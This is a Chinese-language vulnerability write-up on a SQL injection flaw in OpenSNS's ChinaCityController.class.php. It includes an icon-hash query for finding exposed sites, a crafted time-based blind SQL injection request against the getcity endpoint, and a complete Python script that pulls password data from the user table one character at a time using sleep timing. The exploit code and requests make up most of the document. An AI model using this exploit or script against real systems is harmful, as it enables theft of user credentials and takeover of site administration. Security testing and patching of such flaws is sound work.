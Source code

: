 # OpenSNS ChinaCityController.class.php SQL注入漏洞

## 漏洞描述

OpenSNS ChinaCityController.class.php文件中，可通过拼接SQL语句执行任意SQL命令，获取用户账号密码

## 漏洞影响

```
OpenSNS
```

## 网络测绘

```
icon_hash="1167011145"
```

## 漏洞复现

登录页面如下

![image-20220518154243943](./images/202205181542003.png)

存在漏洞的文件为`Addons/ChinaCity/Controller/ChinaCityController.class.php`

![image-20220518154255819](./images/202205181542896.png)

其中用户可控参数为 cid 和 pid, 通过调试查看SQL语句

![image-20220518154306977](./images/202205181543058.png)

通过构造请求闭合SQL语句，造成SQL注入

```
POST /index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html

cid=0&pid[0]==(select*from(select+sleep(3)union/**/select+1)a)and+1+in+&pid[1]=1
```

![image-20220518154329027](./images/202205181543124.png)

```python
通过二分法延时注入可以获取用户账号密码，登录后台

import time
import requests

url = "http://peiqi.com:8888/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html"

flag = ""
for i in range(1,100):
    low = 32
    high = 128
    while low < high:
        headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "X-Requested-With": "XMLHttpRequest"
        }
        mid = (low + high)//2
        data = "cid=0&pid[0]==(select*from(select+if(ascii(substr((select/**/password/**/from/**/ocenter_ucenter_member),{},1))<{},sleep(2),1)union/**/select+1)a)and+3+in+&pid[1]=3".format(i,mid)
        timeStart = time.time()
        r = requests.post(url=url, data=data, headers=headers)
        timeEnd = time.time()
        # print(r.text, low, high, data,timeStart-timeEnd)
        if timeEnd - timeStart >= 1: 
            high = mid
        else:
            low = mid + 1
    if low == high == 32:
        print("No  result")
        break
    flag += chr((high + low - 1)//2)
    print(flag)
```

![image-20220518154353118](./images/202205181543205.png)